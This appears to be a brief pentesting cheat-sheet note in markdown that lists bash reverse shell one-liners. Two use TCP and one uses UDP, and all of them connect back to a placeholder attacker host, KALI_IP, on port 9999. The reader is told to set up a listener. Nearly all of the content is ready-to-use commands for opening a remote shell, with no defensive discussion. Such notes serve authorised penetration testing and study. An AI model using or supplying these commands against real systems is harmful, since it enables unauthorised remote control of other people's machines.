 ```yaml
---
title: 
tags:
---
```

## Bash TCP Reverse Shells
These TCP reverse shells will attempt to make a connection to your KALI machine using port 9999. Make sure to setup a TCP Listener.

```bash
sh -i >& /dev/tcp/KALI_IP/9999 0>&1
```

```bash
0<&196;exec 196<>/dev/tcp/KALI_IP/9999; sh <&196 >&196 2>&196
```
## Bash UDP Reverse Shell
The UDP shells will attempt to make a connection to your KALI machine using port 9999. Make sure to setup a UDP Listener.

```bash
sh -i >& /dev/udp/KALI_IP/9999 0>&1
```

---
### Supporting Content
- 